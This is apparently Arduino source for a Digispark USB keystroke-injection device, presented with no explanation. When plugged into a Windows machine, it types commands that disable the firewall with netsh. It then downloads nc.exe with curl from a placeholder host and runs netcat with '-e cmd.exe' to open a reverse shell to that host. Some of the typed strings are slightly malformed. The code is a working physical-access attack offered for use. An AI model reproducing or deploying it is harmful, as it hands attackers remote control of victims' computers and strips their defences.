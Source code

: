 #define kbd_tr_tr
#include "DigiKeyboard.h"

void setup() {
}

void loop() {
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.delay(750);
DigiKeyboard.print("cmd");
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(750);
DigiKeyboard.print("netsh firewall set opmode disable");
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(MOD_GUI_LEFT);
DigiKeyboard.delay(750);
DigiKeyboard.print("web");
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(KEY_E, MOD_CONTROL_LEFT);
DigiKeyboard.delay(750);
DigiKeyboard.print("ip /nc.exe");
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.delay(350);
DigiKeyboard.print("cmd");
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(350);
DigiKeyboard.print("curl -o nc.exe http//ip/nc.exe");
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(350);
DigiKeyboard.print("nc  ip 8080 -e cmd.exe");
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(350);
DigiKeyboard.print("exit");
DigiKeyboard.delay(350);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
    for (;;){}
}
